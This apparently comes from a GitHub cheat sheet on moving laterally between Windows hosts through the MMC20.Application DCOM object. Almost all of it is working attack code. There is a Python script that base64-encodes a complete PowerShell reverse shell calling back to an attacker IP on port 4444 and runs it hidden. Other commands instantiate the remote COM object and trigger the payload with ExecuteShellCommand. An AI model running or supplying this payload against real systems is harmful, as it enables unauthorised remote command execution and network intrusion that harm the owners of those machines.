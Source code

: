 remotely instantiating the MMC Application object
```powershell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.x.x"))
```

generate base64 powershell payload
```python
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.x.x",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```

runnnig the base64 encoder python script
```bash
python3 encode.py
```

reverse shell as a DCOM payload
```powershell
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"COMMAND","7")
```